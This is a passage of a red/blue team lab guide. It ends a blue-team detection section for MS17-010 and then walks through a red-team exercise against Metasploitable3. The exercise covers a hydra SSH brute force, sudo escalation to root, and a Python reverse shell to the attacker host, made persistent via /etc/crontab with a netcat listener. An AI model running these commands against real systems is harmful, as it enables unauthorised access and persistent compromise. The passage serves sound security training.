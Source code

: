 **Blue Team**:
- **Detection**:
  - Wazuh: SMB alerts.
  - Zeek: `zeek-*` for SMB events.
  - Suricata: MS17-010 signatures.
  - Osquery:
    ```sql
    SELECT * FROM crontab WHERE command LIKE '%backdoor%';
    ```
- **Response**:
  - TheHive case, Cortex enrichment, MISP IOCs.
  - n8n: Suricata alert → block SMB.
- **Collaboration**:
  - Red team shares MS17-010 steps.
  - Blue team updates Wazuh rules.

---

##### Exercise 3: Metasploitable3 SSH Brute-Force to Root with Python Reverse Shell
**Objective**: Brute-force SSH, gain access, escalate to root, and plant Python reverse shell.

**Red Team (Kali)**:
1. **Recon**:
   ```bash
   nmap -sV -p 22 metasploitable3
   ```
2. **Brute-Force**:
   ```bash
   hydra -l vagrant -P /usr/share/wordlists/rockyou.txt ssh://metasploitable3 -t 4
   ```
   Credentials: `vagrant:vagrant`.
3. **Access**:
   ```bash
   ssh vagrant@metasploitable3
   ```
4. **Root**:
   ```bash
   sudo -l
   sudo su
   whoami  # root
   ```
5. **Backdoor**:
   ```bash
   echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("kali",4446));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])' > /root/reverse_shell.py
   echo "* * * * * python3 /root/reverse_shell.py" >> /etc/crontab
   service cron restart
   ```
   Listener:
   ```bash
   nc -lvnp 4446
   ```
